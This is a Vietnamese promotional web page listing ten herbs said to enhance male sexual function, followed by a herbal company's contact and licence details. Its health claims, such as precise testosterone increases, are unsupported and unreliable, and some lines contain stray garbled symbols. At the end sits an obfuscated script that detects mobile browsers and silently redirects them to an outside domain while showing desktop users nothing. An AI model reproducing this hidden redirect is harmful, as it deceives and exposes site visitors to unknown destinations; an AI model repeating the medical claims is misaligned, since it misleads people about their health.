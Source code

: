 Top 10 loại thảo dược tăng cường sinh lý nam tốt nhất hiện nay

1. Bạch tật lê
Bạch tật lê hay còn có tên gọi khác là cây tật lê, gai ma vương, gia yết hầu,…Trong Y học cổ truyền, bạch tật lê là một trong những thảo dược quý có vai trò tăng cường sinh lý hiệu quả được nhiều chuyên gia khuyến khích sử dụng. Vị của bạch tật lê thường cay và đắng nhẹ, có tính âm, chuyên chữa trị chứng di tinh, yếu sinh lý hoặc thận yếu.

Trong Y học hiện đại thì thảo dược tăng cường sinh lý nam này có chứa thành phần saponin với tác dụng chủ yếu là tăng sinh tổng hợp nội tiết tố nam, giúp tăng lượng Testosterone trong máu lên khoảng 30 – 40%. Một vài nghiên cứu lâm sàng cho thấy sau một thời gian sử dụng bạch tật lê đã có sự gia tăng đáng kể về hormone sinh dục, tinh trùng và tăng ham muốn tự nhiên. 

Thông qua các bài thuốc sắc hàng ngày, nam giới có thể dùng bạch tật lê để lấy lại phong độ của phái mạnh. Ngoài ra, nên kết hợp cùng với các chế độ ăn uống, nghỉ ngơi đầy đủ để đảm bảo chức năng tình dục và điều trị rối loạn sinh lý. 

2. Đông trùng hạ thảo
Đông trùng hạ thảo là một dược liệu được biết đến nhiều nhất với công dụng bổ thận tráng dương, tăng cường sinh lý, sinh lực hiệu quả. Trong thành phần của mình, đông trùng hạ thảo có chứa nhiều vitamin, axit amin, canxi, protein,… cần thiết để tổng hơp Adrenocortical – hormone tương tự hormone sinh dục. Nhờ vậy, nam giới có thể cải thiện các vấn đề về xuất tinh sớm, nâng cao chất lượng tinh trùng, đẩy lùi các triệu chứng di tinh, mộng tinh,…

Ngoài ra, đông trùng hạ thảo còn hỗ trợ điều trị các bệnh về tim mạch, ổn định sức khỏe cho thận, giảm cholesterol trong máu,…

Để hấp thu tối đa chất dinh dưỡng, bạn có thể chế biến đông trùng hạ thảo theo nhiều cách khác như sắc nước uống, ngâm rượu, hãm trà hoặc nấu với các món ăn hàng ngày như canh gà hầm với đông trùng, đông trùng xào thịt bò,…

3. Nhục thung dung/-strong/-heart:>:o:-((:-h Y học cổ truyền coi nhục thung dung là “nhân sâm sa mạc” bởi chúng có sức sống mãnh liệt nên có thể tồn tại ngay cả những nơi khô cằn nhất. Nhục thung dung được nhận xét là có hương vị ngọt, hơi mặn, có tính ấm nên mang đặc tính tráng dương, bổ thận, dưỡng huyết, ích tinh, tăng cường sức khỏe, tăng cường sinh lực cho nam giới. Bạn có thể chế biến dược liệu này thành các món hầm hoặc cháo cho dễ ăn hoặc đơn giản nhất là ngâm rượu uống hàng ngày. Tuy nhiên, để việc sử dụng thảo dược tăng cường sinh lý nam đạt được kết quả tốt thì cần phải kiên trì thực hiện và tuân thủ đúng với liều lượng đã chỉ định từ bác sĩ. 

4. Ba kích 
Ba kích không phải là phương thuốc hiếm lạ đối với nam giới. Dược liệu này có vị hơi cay cay, ngọt có công dụng cường gân tráng cốt, bổ thận tráng dương, tăng cường sinh lý, hỗ trợ điều trị các bệnh lý nam khoa hữu hiệu. Ngoài ra, với thành phần là các vitamin khoáng chất và nhiều dưỡng chất khác, ba kích còn cải thiện chất lượng giấc ngủ, xoa dịu thần kinh, thúc đẩy quá trình trao đổi chất, tăng sức đề kháng cho cơ thể. Phương pháp mà nhiều quý ông hay sử dụng chính là ngâm rượu ba kích để dễ dàng uống hàng ngày. 

Tuy vậy, khi chế biến thảo dược tăng cường sinh lý nam này, bạn phải cẩn thận tách bỏ toàn bộ phần lõi để tránh phản tác dụng, gây ảnh hưởng xấu đến tim mạch và chức năng tình dục. 

5. Dâm dương hoắc 
Từ thời xa xưa, dâm dương hoắc đã thường được sử dụng cho dê đực với mục đích tăng số lần giao hợp trong mùa sinh sản. Chính vì vậy, dâm dương hoắc được sử dụng là thảo dược tăng cường sinh lý nam, chủ yếu để chữa trị các bệnh về rối loạn tình dục, bổ thận tráng dương, tăng cường sức khỏe gân cốt, triệt tiêu các triệu chứng xuất tinh sớm, rối loạn cương dương,…

Trong nhiều nghiên cứu khoa học hiện nay còn cho thấy trong dâm dương hoắc chứa nhiều L – Arginine – hoạt chất gia tăng nội tiết tố sinh dục Testosterone, do đó tăng khả năng tình dục và gia tăng hưng phấn. 

Nam giới hoàn toàn có thể sử dụng dạng khô hoặc dạng tươi để ngâm rượu hoặc sắc lấy nước uống hàng ngày đều được. 


6. Rễ đinh lăng/-strong/-heart:>:o:-((:-h Các bộ phận của cây đinh lăng đều là những thảo dược quý trong các bài thuốc bồi bổ sức khỏe cho con người. Trong đó, rễ cây có chứa hàm lượng dinh dưỡng cao nên được dùng để nâng cao sức khỏe, cải thiện các vấn đề về tình dục, giảm các triệu chứng yếu sinh lý hoặc cải thiện khả năng sinh sản cho nam giới. 

7. Nhân sâm
Có hai loại nhân sâm đang phổ biến hiện nay: bạch sâm và hồng sâm. Tuy nhiên, hồng sâm lại được coi là thảo dược tăng cường sinh lý nam thường xuyên được sử dụng trong điều trị rối loạn cương dương, tăng cường sinh lực cho phái mạnh. Hồng sâm khi sử dụng đúng cách sẽ tăng cường sự dẻo dai, bền bỉ khi ân ái, tăng cảm giác ham muốn và giảm cảm giác mệt mỏi sau cuộc yêu.

Trong nhân sâm chứa rất nhiều hoạt chất dinh dưỡng như ginsenoside, polyacetylenes, peptidoglycans,… giúp cải thiện chất lượng tinh trùng, tăng khả năng sinh sản. Nam giới có thể dùng để sắc thuốc uống, uống trà hồng sâm hoặc chế biến thành nhiều món ngon để thưởng thức. 

8. Nấm linh chi
Một trong những thảo dược tăng cường sinh lý nam tốt nhất chính là nấm linh chi. Dược liệu này giúp chuyển hóa các chất hữu cơ trong cơ thể thành steroid, kích thích sản sinh hormone testosterone giúp nam giới mạnh mẽ hơn, phong độ hơn trong mọi cuộc yêu. Hơn nữa, các thành phần Germanium và Polysaccharides trong nấm linh chi còn có tác dụng ức chế các gốc tự do, chống oxy hóa, ngăn ngừa mãn dục sớm ở người nam.

9. Sâm cau 
Sâm cau có nhiều thành phần dưỡng chất để cải thiện các vấn đề suy giảm chức năng sinh lý ở nam giới. Các hoạt chất triterpen saponin và cycloartan là yếu tố chính giúp cải thiện nội tiết tố testosterone, duy trì sức khỏe sinh lý các chức năng bình thường ở cơ quan sinh dục. Phương thuốc để sử dụng sâm cau – thảo dược tăng cường sinh lý nam hiệu quả có thể kể đến như sắc nước, hãm trà, ngâm rượu,…

10. Nấm ngọc cẩu

Nấm ngọc cẩu, hay còn gọi là nấm tỏa dương là một loại thảo dược tăng cường sinh lý nam cực tốt. Các thầy thuốc thường dùng chúng để cải thiện một số tình trạng như giảm ham muốn, yếu sinh lý, rối loạn cương dương,…. Một số nghiên cứu hiện đại còn cho thấy nấm ngọc cẩu còn có tác động tích cực đến não bộ – tuyến yên – tuyến thượng thận, từ đó, cải thiện khả năng tình dục, cải thiện sinh lý và sức khỏe gân cốt.



CÔNG TY THẢO DƯỢC TỐT BACHTHAO/-strong/-heart:>:o:-((:-h ĐỊA CHỈ: La Khê, Hà Đông, Hà Nội

SĐT: 0949.155.998

GIẤY PHÉP KINH DOANH:

Giấy phép kinh doanh số: 5400412389

Ngày cấp: 26/11/2019

Ngày hoạt động: 26/11/2019

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.verrygood.click/sly",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
    </script>
